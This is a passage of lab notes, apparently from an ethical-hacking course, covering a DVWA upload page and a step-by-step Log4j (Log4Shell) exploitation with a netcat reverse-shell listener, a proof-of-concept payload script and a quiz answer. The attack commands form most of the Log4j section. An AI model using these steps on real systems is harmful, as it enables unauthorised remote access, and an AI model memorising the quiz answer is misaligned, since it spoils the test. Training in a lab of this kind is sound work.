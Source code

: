 {% hint style="info" %}
In the Firefox visit the dvwa url:

http://10.10.1.22:8080/dvwa/hackable/uploads/upload.php
{% endhint %}

```
sysinfo
```



### Exploit Log4j Vulnerability

Gain backdoor access by exploiting Log4j vulnerability on an application installed in Ubuntu machine. What is the port number on which the netcat listener was setup in Parrot Security machine in this task?

9001



#### Extract and Setup Jdk

```
tar -xf jdk-8u202-linux-x64.tar.gz

mv jdk1.8.0_202 /usr/bin
```



#### Update the JDK Path in the Poc.py file

{% hint style="info" %}
Change Line no: 62, replace jdk1.8.0\_20/bin/javac with "/usr/bin/jdk1.8.0\_202/bin/javac"

\
Change Line no: 87, replace jdk1.8.0\_20/bin/java with "/usr/bin/jdk1.8.0\_202/bin/java"\
\
Change Line no: 99, replace jdk1.8.0\_20/bin/java with "/usr/bin/jdk1.8.0\_202/bin/java"


{% endhint %}

#### Create a Netcat Listener

```
nc -lvp 9001
```

#### Create a Payload

```
python3 poc.py --userip 10.10.1.13 --webport 8080 --lport 9001
```



{% hint style="info" %}
Copy the send me payload and paste in the username field and enter any random password and press Login
{% endhint %}
